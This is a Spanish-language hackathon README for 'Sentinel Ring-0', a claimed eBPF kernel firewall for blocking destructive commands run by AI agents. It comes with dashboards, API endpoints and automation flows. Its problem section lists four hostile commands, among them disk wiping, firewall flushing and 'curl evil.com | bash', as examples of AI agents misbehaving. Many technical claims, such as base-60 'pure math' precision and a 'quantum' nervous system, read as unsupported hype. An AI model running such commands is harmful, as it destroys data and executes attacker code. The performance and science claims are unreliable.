








<div align="center">

# Sentinel Ring-0
### El Firewall Cognitivo + Ecosistema de Inteligencia Soberana para Linux

**Intercepta syscalls destructivas en el kernel Linux antes de que se ejecuten. Visualiza la topología P2P en tiempo real. Automatiza la defensa con flujos reactivos. Todo con matemáticas exactas en Base-60.**

[](https://vps23309.cubepath.net/)
[](https://github.com/midudev/hackaton-cubepath-2026)
[](https://www.rust-lang.org/)
[](https://ebpf.io/)
[](https://nextjs.org/)
[](https://n8n.io/)

</div>

---

## 🎬 Demo Animado


---

## 📸 Capturas del Sistema en Vivo

| Vista | Descripción |
|---|---|
|  | **Vista Proyecto** — Información técnica completa del sistema |
|  | **Dashboard Principal** — Estado global de Sentinel Ring-0 |
|  | **AIOps Shield** — Firewall Cognitivo contra agentes IA maliciosos |
|  | **S60 Laboratory** — Crystal Lattice 32×32 + Neural Spikes en tiempo real |
|  | **MyCNet Batman-adv Mesh** — Topología P2P hexagonal con métricas TQ |
|  | **Node Detail Popup** — Diagnóstico Vertex AI + vecinos TQ en vivo |
|  | **Arco Reflejo (n8n)** — 16 flujos de automatización defensiva |
|  | **Grafana Dashboard** — Métricas S60 en tiempo real |
|  | **Technical Vault** — 152 documentos de ingeniería |


---

## ¿Qué es Sentinel Ring-0?

Sentinel empezó como un firewall cognitivo para agentes de IA. **Terminó como un ecosistema completo de inteligencia soberana** — un sistema que no solo detecta y bloquea amenazas a nivel de kernel, sino que:

- **Visualiza** su propia topología de red P2P (MyCNet B.A.T.M.A.N.-adv) en tiempo real
- **Automatiza** respuestas defensivas con 16+ flujos de n8n (Arco Reflejo)
- **Razona** sobre eventos con matemáticas exactas en Base-60 (sin punto flotante)
- **Sincroniza** nodos distribuidos mediante el protocolo YHWH (10-5-6-5)
- **Monitorea** toda la infraestructura vía Grafana + Prometheus + WebSocket en vivo

> **"No le estamos dando una herramienta a Linux. Le estamos dando un sistema nervioso."**

---

## 🚀 Hitos de Innovación

1. **Watchdog LSM (Ring-0 Enforcement)**: Intercepción de syscalls (`execve`, `openat`, `chmod`) en el kernel ANTES de su ejecución. Latencia: **< 0.04 ms**.
2. **Aritmética S60 Pure Math**: Eliminación total de contaminación decimal (`f64`). Precisión determinista de ±0.0077 ppm basada en la tablilla babilónica Plimpton 322. Protocolo: **Yatra Pure**.
3. **MyCNet Batman-adv Mesh**: Topología hexagonal de 6 nodos físicos interconectados con métricas TQ en tiempo real, modulación YHWH y soporte para almacenamiento distribuido MinIO/Ceph con erasure coding EC 4+2.
4. **Arco Reflejo (n8n)**: 16 flujos de automatización defensiva — desde mitigación DDoS hasta rotación de secretos y respuesta a incidentes con IA cognitiva.
5. **Crystal Lattice Matrix**: Red de 32×32 = 1024 cristales resonantes en S60 puro. Cada evento de seguridad se propaga como una onda física en el lattice — visible en tiempo real en la UI.
6. **Neuronas LIF en S60**: Spiking Neural Network (SNN) Leaky Integrate-and-Fire migrado completamente a Base-60 puro. La tasa de disparo neuronal condiciona el cifrado dinámico del sistema.
7. **TruthSync + SoulVerifier**: Cada telemetría se valida con Exponente de Lyapunov y se sella con SHA3-512. Grado judicial de certeza matemática.
8. **Vertex AI Telemetry**: Integración con Google Vertex AI / Gemini para diagnóstico predictivo de nodos de red y análisis semántico de intenciones de agentes IA.

---

## El Problema

Los agentes de IA modernos ejecutan comandos en servidores de producción. Sin supervisión, pueden hacer esto:

```bash
rm -rf /var/data/       # Un agente "limpiando espacio"
iptables -F             # Un agente "reiniciando la red"
dd if=/dev/zero of=/    # Un agente "optimizando el disco"
curl evil.com | bash    # Un agente "instalando dependencias"
```

Las soluciones actuales interceptan estas acciones **después** de que el proceso ya tiene privilegios. Para entonces, a veces ya es tarde.

**Sentinel opera en Ring-0 (kernel), interceptando la syscall antes de que el proceso la ejecute.**

---

## EDR Tradicional vs Sentinel Ring-0

| Característica | EDR Tradicional | Sentinel Ring-0 |
|---|---|---|
| Punto de interceptación | Userspace (Ring 3) | Kernel eBPF (Ring 0) |
| Latencia de decisión | 1-10 ms | < 0.04 ms (XDP) |
| Análisis semántico | Reglas estáticas | Clasificación por intento via LLM |
| Overhead CPU | ~15-30% (ptrace) | ~5.5% (vs ptrace: -62.9%) |
| Clave de cifrado | Estática | Dinámica por tick de cristal |
| Precisión aritmética | IEEE 754 (float, errores acumulativos) | S60 Base-60 (i64 puro, ±0.0077 ppm) |
| Kill-switch de red | Manual | Automático via tc_firewall.c |
| Certificación de Verdad | Hash MD5/SHA1 | SHA3-512 + Lyapunov Signature |
| Red de nodos | Centralizada | P2P Mesh B.A.T.M.A.N.-adv |
| Automatización defensiva | Manual | 16 flujos n8n (Arco Reflejo) |
| Observabilidad | Logs | Grafana + Prometheus + WebSocket Live |

---

## Arquitectura Completa

```
╔══════════════════════════════════════════════════════════════════════════╗
║  RING 0 — KERNEL LINUX (eBPF/C)                                          ║
║  ┌─────────────────┐  ┌──────────────────┐  ┌──────────────────────────┐ ║
║  │ lsm_ai_guardian │  │  xdp_firewall    │  │  tc_firewall / burst_    │ ║
║  │ Hook execve/    │  │  Filtrado red    │  │  sensor (DDoS detection) │ ║
║  │ file_open       │  │  < 0.04 ms       │  │  Kill-switch cuarentena  │ ║
║  │ + RingBuffer    │  └──────────────────┘  └──────────────────────────┘ ║
║  └────────┬────────┘                                                      ║
╠═══════════╪══════════════════════════════════════════════════════════════╣
║  RING 3 — USERSPACE (Rust + Axum + Tokio)                                ║
║           │  Bridge libbpf-rs (zero-copy, 256KB ringbuf)                 ║
║    ┌──────▼──────────────────────────────────────────────────────────┐   ║
║    │  MOTOR S60 — math/s60.rs — Aritmética Base-60 en i64 puro      │   ║
║    │  (Protocolo Yatra Pure: CERO floats, CERO errores IEEE-754)     │   ║
║    └──────┬───────────────────────────────────────────────────────── ┘   ║
║           │                                                               ║
║    ┌──────┴───────────────────────────────────────────────────────────┐  ║
║    │  crystal.rs    CrystalLattice 32x32 (1024 osciladores en S60)   │  ║
║    │  neural.rs     SNN Neuronas LIF en S60 puro                     │  ║
║    │  truthsync.rs  SoulVerifier SHA3-512 + Lyapunov                 │  ║
║    │  mycnet.rs     Red P2P YHWH (10-5-6-5) + B.A.T.M.A.N.-adv      │  ║
║    │  predictive.rs AI Buffer Cascade Non-Markovian                  │  ║
║    │  quantum/      BioRes + PortalDet + ResonantBuffer             │  ║
║    │  security/     WAL forense + eBPF bridge                       │  ║
║    └──────────────────────────────────────────────────────────────── ┘  ║
╠══════════════════════════════════════════════════════════════════════════╣
║  AUTOMATIZACIÓN — n8n (Arco Reflejo) — localhost:5678                    ║
║  16 flujos activos: DDoS Mitigation · Threat Intelligence · Secret       ║
║  Rotation · AI Cognitive Generator · Blockchain Logger · y más...        ║
╠══════════════════════════════════════════════════════════════════════════╣
║  RED P2P — MyCNet B.A.T.M.A.N.-adv Mesh                                  ║
║  6 nodos físicos (10.10.0.11-16) · MinIO EC 4+2 · Ceph CRUSH            ║
║  TQ Metrics en tiempo real · Modulador YHWH · AQM fq_codel              ║
╠══════════════════════════════════════════════════════════════════════════╣
║  OBSERVABILIDAD — Stack Completo                                          ║
║  Grafana · Prometheus · Loki · WebSocket Stream live                     ║
╠══════════════════════════════════════════════════════════════════════════╣
║  UI — Next.js 14 + React + TypeScript + Framer Motion                    ║
║  Dashboard · AIOps Shield · S60 Laboratory · MyCNet Topology             ║
║  Arco Reflejo (n8n) · Vault · Grafana Embedded · Prometheus Live         ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

## Módulos Clave

### 1. Motor S60 — Aritmética Base-60 sin Floats (`math/s60.rs`)

El corazón del sistema. Toda la aritmética — física, cristales, neuronas, resonancia — opera en punto fijo Base-60 usando solo `i64` de Rust. Igual que los babilonios en la tablilla Plimpton 322, pero en silicio moderno. Precisión de ±0.0077 ppm, sin errores acumulativos de IEEE 754.

### 2. Crystal Lattice Matrix — 1024 Cristales Resonantes (`crystal.rs`)

Red de 32×32 osciladores piezoeléctricos virtuales sintonizados a la frecuencia de la fila 12 de Plimpton 322. Los cristales transfieren energía entre nodos por propagación física en cada tick (41.7713 Hz). El heatmap 32×32 en la UI es la firma matemática de la salud del sistema.

### 3. MyCNet — Red P2P Hexagonal B.A.T.M.A.N.-adv (`mycnet.rs`)

Topología de 6 nodos físicos (Raspberry Pi / PCs) corriendo B.A.T.M.A.N. Advanced sobre `bat0`. Métricas TQ (Transmit Quality 0-255) convertidas a formato S60 en tiempo real. Almacenamiento distribuido MinIO (EC 4+2) migrando a Ceph CRUSH. Control de congestión con `fq_codel` AQM.

### 4. Arco Reflejo — Automatización Defensiva n8n (16 Flujos)

Motor de respuesta automática ante estímulos perimetrales. DDoS Mitigation, Threat Intelligence Aggregator, Secret Rotation, Incident Response, AI Cognitive Generator, Blockchain Logger, Zero-Day Scanner, y más. Política de solo lectura para integridad de los JSONs.

### 5. TruthSync + SoulVerifier (`truthsync.rs`)

Eleva la validación de la IA a grado judicial. Calcula el Exponente de Lyapunov para detectar telemetría caótica o maliciosa y sella cada evento con SHA3-512. Integrado con el detector `AIOpsDoom` y Vertex AI para análisis predictivo.

---

## Métricas de Rendimiento

| Métrica | Valor | Contexto |
|---|---|---|
| Latencia XDP | < 0.04 ms | Medida en producción CubePath |
| Latencia Watchdog LSM | < 0.08 ms | Intercepción de execve/openat |
| Integridad Forense | 100% (fsync) | Lane 1: Deterministic Operations |
| Precisión S60 | ±0.0077 ppm | vs IEEE 754 con errores acumulativos |
| Eficiencia planificador | 94.4% | Experimento EXP-029-V2 |
| Ahorro CPU vs ptrace | 62.9% | Comparativa en Rocky Linux 10 |
| Frecuencia oscilador cristal | 41.7713 Hz | 23,939,835 ns/tick |
| Nodos Crystal Lattice | 1024 (32×32) | CrystalLattice en resonant.rs |
| Nodos MyCNet activos | 6 físicos | batman-adv mesh (10.10.0.11-16) |
| Flujos Arco Reflejo | 16 | n8n workflows de defensa activa |
| Flujos Arco Reflejo | 16 | n8n workflows de defensa activa |

---

## API — Endpoints Principales

**Health check:**
```bash
curl https://vps23309.cubepath.net/health
# {"status":"OK","tick":8347}
```

**Estado completo del sistema:**
```bash
curl https://vps23309.cubepath.net/api/v1/sentinel_status
```

**Crystal Lattice en tiempo real (1024 nodos):**
```bash
curl https://vps23309.cubepath.net/api/v1/lattice/state
```

**Neural state (SNN Spiking Network):**
```bash
curl https://vps23309.cubepath.net/api/v1/neural/state
```

**Inyectar pulso de verdad:**
```bash
curl -X POST https://vps23309.cubepath.net/api/v1/inject_truth_pulse \
  -H "Content-Type: application/json" \
  -d '{"pulse_type":"YHWH_SYNC","energy_s60_raw":5000000,"severity":1}'
```

**Métricas Prometheus:**
```bash
curl https://vps23309.cubepath.net/metrics
# sentinel_resonance_score, sentinel_bio_coherence, sentinel_global_tick, sentinel_ring0_intercepts_total
```

**WebSocket de telemetría en tiempo real:**
```javascript
const ws = new WebSocket("wss://vps23309.cubepath.net/api/v1/telemetry");
ws.onmessage = (e) => console.log(JSON.parse(e.data));
```

---

## Demo en Vivo

| Sección | URL | Descripción |
|---|---|---|
| Dashboard Principal | [vps23309.cubepath.net](https://vps23309.cubepath.net/) | Vista general del sistema |
| AIOps Shield | [/#/aiops](https://vps23309.cubepath.net/#aiops_shield) | Análisis semántico de IA |
| S60 Laboratory | [/#/matrix](https://vps23309.cubepath.net/#matrix) | Crystal Lattice + Neural Spikes |
| MyCNet Topology | [/#/mycnet](https://vps23309.cubepath.net/#mycnet) | Red P2P B.A.T.M.A.N.-adv |
| Arco Reflejo | [/#/n8n](https://vps23309.cubepath.net/#n8n_reflex) | 16 flujos de automatización |
| Grafana | [/grafana](https://vps23309.cubepath.net/grafana/) | Dashboards S60 |
| Prometheus | [/prometheus](https://vps23309.cubepath.net/prometheus/) | Métricas en bruto |

---

## Stack Tecnológico

| Capa | Tecnología |
|---|---|
| Kernel | eBPF (LSM, XDP, TC hooks), libbpf, clang |
| Backend | Rust 1.75+, Axum, Tokio, libbpf-rs, Serde |
| Matemáticas | S60 Base-60 fixed-point (i64 puro, Protocolo Yatra Pure) |
| IA Semántica | Gemini 2.0 Flash via Vertex AI |
| Automatización | n8n (16 flujos defensivos — Arco Reflejo) |
| Red P2P | B.A.T.M.A.N.-adv, MinIO EC 4+2, Ceph CRUSH |
| Frontend | Next.js 14, React, TypeScript, Framer Motion |
| Infraestructura | Rocky Linux 10, CubePath VPS23309, Docker, Nginx |
| Observabilidad | Prometheus, Grafana, Loki, WebSocket stream |
| Servidor Secundario | Google Cloud (Fénix — 34.28.226.63) |

---

## Ecosistema Sentinel

Este repositorio es el núcleo del ecosistema. Los proyectos relacionados:

| Proyecto | Descripción |
|---|---|
| [sentinel_media](https://github.com/jenovoas/sentinel_media) | Enjambre de 13 agentes Rust para generación autónoma de contenido (Veo 3.0 + Me60OS) |
| sentinel (kernel) | Motor Ring-0 + mesh MyCNet (directorio `/root/sentinel`) |
| sentinel-cubepath | Este repositorio — Dashboard + Observabilidad + Arco Reflejo |

---

## Desarrollado por

**Jaime Novoa** (jnovoas / jaime.novoase@gmail.com)
para la Hackatón CubePath 2026 de MiduDev — Marzo 2026

> *"Décadas construyendo sistemas. Esta hackatón es la demostración pública de que Linux puede tener un sistema nervioso cuántico antes de que terminen de fabricar los procesadores cuánticos."*

Repositorio: https://github.com/jenovoas/sentinel_cubepath  
Inscripción: https://github.com/midudev/hackaton-cubepath-2026/issues/182
